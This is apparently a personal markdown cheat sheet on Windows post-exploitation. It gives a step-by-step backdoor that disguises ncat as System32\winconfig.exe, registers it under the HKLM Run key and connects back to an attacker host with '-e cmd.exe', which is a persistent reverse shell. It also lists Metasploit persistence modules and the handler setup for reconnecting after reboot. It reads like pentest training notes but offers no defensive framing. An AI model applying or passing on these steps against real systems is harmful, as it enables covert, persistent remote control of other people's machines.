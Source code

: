 
# System Atacks

## ncat 
```
-l  -listen
-e  -execute file
-p  -port
-v  -verbose
```

## backdoor
- copy ncat (with the right OS version) to the target
- as WIndows\system32\winconfig.exe
- go to regedit

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

New > String Value
Edit with the path of the ncat as winconfig follow by the ip of attacker and port to connect

```bash
 -e cmd.exe
example: "C:\Windows\System32\winconfig.exe <IP> <PORT> -e cmd.exe"
```
the persistence is set. We can listen in our attacker machine ncat -l -p <port> -v


## METERPRETER
if u have a session already

- to get persistence
```
use exploit/windows/local/s4u_persistence
```

or
```
use exploit/windows/local/persistence
set payload, session, lhost and port 
set DisablePayloadHandler false
set start SYSTEM
```

then we are able to open a session even after the reboot with:

use exploit/multi/handler
set payload, lhost and port


with meterpreter we can:
- screenshot > to grab the screen of the target
